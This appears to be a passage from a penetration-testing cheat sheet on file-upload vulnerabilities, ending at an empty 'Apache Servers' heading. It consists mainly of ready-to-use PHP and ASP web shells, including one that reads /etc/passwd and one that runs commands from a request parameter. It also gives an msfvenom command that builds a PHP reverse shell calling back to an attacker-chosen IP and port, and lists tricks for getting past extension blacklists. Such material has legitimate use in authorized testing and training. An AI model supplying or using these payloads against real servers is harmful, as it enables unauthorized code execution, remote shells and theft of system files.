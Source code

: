 | File Types              | Potential Attack |
| ----------------------- | ---------------- |
| HTML, JS, SVG, GIF      | XSS              |
| XML, SVG, PDF, PPT, DOC | XXE/SSRF         |
| ZIP, JPG, PNG           | DoS              |

***

## **Web and Reverse Shells Payloads to Inject**

<table><thead><tr><th width="477">Web Shell</th><th>Description</th></tr></thead><tbody><tr><td><code>&#x3C;?php file_get_contents('/etc/passwd'); ?></code></td><td>Basic PHP File Read</td></tr><tr><td><code>&#x3C;?php system('hostname'); ?></code></td><td>Basic PHP Command Execution</td></tr><tr><td><code>&#x3C;?php system($_GET['cmd']); ?></code></td><td>Basic PHP Web Shell</td></tr><tr><td><code>&#x3C;% eval request('cmd') %></code></td><td>Basic ASP Web Shell</td></tr><tr><td><code>msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php</code></td><td>Generate PHP reverse shell</td></tr><tr><td>https://github.com/Arrexel/phpbash</td><td>PHP Web Shell</td></tr><tr><td>https://github.com/pentestmonkey/php-reverse-shell</td><td>PHP Reverse Shell</td></tr><tr><td>https://github.com/danielmiessler/SecLists/tree/master/Web-Shells</td><td>List of Web Shells and Reverse Shells</td></tr></tbody></table>

***

## **Extension Blacklist Bypasses**

One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like `.php`

You might use the following techniques to bypass some basic extension blacklists:

| Command                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Description                                                   |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- |
| `shell.phtml`                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Uncommon Extension                                            |
| `shell.pHp`                                                                                                                                                                                                                                                                                                                                                                                                                                                          | Case Manipulation                                             |
| `shell.jpg.php`                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Double Extension                                              |
| `shell.php.jpg`                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Reverse Double Extension                                      |
| `%20, %0a, %00, %0d0a, /, .\, ., …`                                                                                                                                                                                                                                                                                                                                                                                                                                  | Character Injection - Before/After Extension                  |
| <p><a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst">List of PHP Extensions</a></p><p><a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP">List of ASP Extensions</a></p><p><a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt">List of Web Extensions</a></p> | Use some alternative extensions that might not be blacklisted |

### **Overriding the server's configuration files**

In some cases, you might be able to leverage a file upload vulnerablity to move inside the filesystem and override files.\
In that case, you can override the server's configuration to allow certain extensions, such as `.php`

<details><summary>Apache Servers</summary></details>